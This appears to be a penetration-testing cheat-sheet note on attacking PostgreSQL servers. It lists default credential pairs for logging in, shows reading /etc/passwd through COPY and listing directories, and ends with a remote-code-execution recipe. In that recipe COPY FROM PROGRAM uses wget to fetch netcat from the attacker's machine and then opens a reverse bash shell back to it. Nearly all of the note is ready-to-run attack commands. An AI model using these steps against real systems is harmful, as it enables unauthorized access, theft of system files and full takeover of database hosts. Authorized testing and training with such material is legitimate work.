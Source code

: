 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Try logging in with the following command and common creds:

```bash - kali
psql -h $TARGET -U postgres -p 5432
```

postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password

#### Database navigation
List all databases
```sql - postgresql
\l
```

Use specific database
```sql - postgresql
\c <DATABASE>
```

List all tables in current database
```sql - postgresql
\dt
```

Describe a table
```sql - postgresql
\d <TABLENAME>
```

Get user roles
```sql - postgresql
\du+
```


#### Read a file
```sql - postgresql
CREATE TABLE demo(t text);
```

```sql - postgresql
COPY demo from '/etc/passwd';
```

```sql - postgresql
SELECT * FROM demo;
```

#### Directory traversal
```sql - postgresql
select pg_ls_dir('./');
```

#### Remote Code Execution

In Kali:
```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

In postgres:

```sql - postgresql
\c postgres;
```

Clean up after yourself
```sql - postgresql
DROP TABLE IF EXISTS cmd_exec;
```

Create the table you want to hold the command output
```sql - postgresql
CREATE TABLE cmd_exec(cmd_output text);
```

Run the system command via the COPY FROM PROGRAM function
```sql - postgresql
COPY cmd_exec FROM PROGRAM 'wget http://$KALI/nc';
```

```sql - postgresql
DELETE FROM cmd_exec;
```

![[rlwrap]]

```sql - postgresql
COPY cmd_exec FROM PROGRAM 'nc -n $KALI 80 -e /usr/bin/bash';
```
